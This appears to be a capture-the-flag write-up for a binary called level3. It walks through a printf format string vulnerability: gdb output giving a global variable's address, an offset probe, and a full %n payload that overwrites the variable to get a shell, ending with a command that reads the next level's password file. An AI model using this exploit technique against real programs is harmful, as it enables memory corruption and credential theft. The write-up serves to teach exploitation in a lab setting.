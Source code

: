 After running the program, we observed that it reads from stdin.

We found a global variable called `m` initialized to `0` and a function named `v()`.

The program calls four C functions (`fgets`, `printf`, `fwrite`, `system`) and compares the value of the `m` variable to `0x40` (64).

Since the program uses `fgets` to read from stdin, it is protected from buffer overflow. However, it passes the returned value to the printf function.

According to the manual page of printf, the bugs section states:
>Code such as printf(foo); often indicates a bug, since foo may contain a % character. If foo comes from untrusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

We will exploit the program using a "Format String Vulnerability Exploitation" approach. For more information, refer to:
- https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

First, we need to extract the address of the `m` variable:
```
(gdb) info var
Non-debugging symbols:
[...]
0x0804988c  m
```
Next, we need to determine the offset:
```
./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
The offset is 4. Now we construct the payload for exploitation:
```
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/payload
cat /tmp/payload - | ./level3
cat /home/user/level4/.pass
```
